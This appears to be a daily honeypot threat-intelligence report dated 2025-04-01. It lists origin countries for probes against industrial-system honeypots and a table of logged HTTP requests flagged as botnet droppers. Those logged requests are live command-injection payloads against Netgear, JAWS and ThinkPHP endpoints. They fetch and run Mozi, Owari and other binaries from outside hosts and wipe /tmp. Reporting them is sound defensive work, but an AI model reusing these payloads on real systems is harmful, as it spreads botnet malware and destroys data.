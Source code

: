 ```yaml
---
title: "Report: 2025-04-01 "
date: 2025-04-01
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-04-01
Interaction report on http service of various honeypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
Simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| ID               | Germany            |
| US               | Germany            |
| DE               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |
| GB               |                    |

## botnet_dropper_behaviour
List of requests suspected of having stage 1 dropper behavior (programs designed to extract other files from their own code).
| remote_addr     | request                                                                                                                                                                                                                                                                                                                                              |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 117.245.7.133   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                |
| 61.52.97.172    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://61.52.97.172:44680/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                          |
| 103.207.124.222 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.207.124.222:43183/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                       |
| 103.203.72.209  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.203.72.209:47702/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                        |
| 123.4.159.241   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://123.4.159.241:60259/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                         |
| 204.76.203.18   | GET /wget HTTP/1.1                                                                                                                                                                                                                                                                                                                                   |
| 47.101.204.123  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                         |
| 58.146.59.84    | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                                                                                                                                                                                               |
| 124.220.11.157  | GET /shell?cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F45.95.147.201%2Fbins%2Farm7%3B%20chmod%20777%20arm7%3B%20.%2Farm7%20jaws%3B HTTP/1.1\x5Cr\x5CnUser-Agent: Mozila/5.0\x5Cr\x5CnHost: 127.0.0.1:80\x5Cr\x5CnAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\x5Cr\x5CnConnection: keep-alive\x5Cr\x5Cn\x5Cr\x5Cn\x11 |
| 85.122.180.176  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                                                            |
| 1.192.193.208   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://37.49.224.156/heuNJloMYQKaZcisDXxjIzCGdvW75fyPt9EHUpkOVw0SmBbF8L/M3tH.x86 -O thinkphp ; chmod 777 thinkphp ; ./thinkphp ThinkPHP.selfrep ; rm -rf thinkphp' HTTP/1.1                                                   |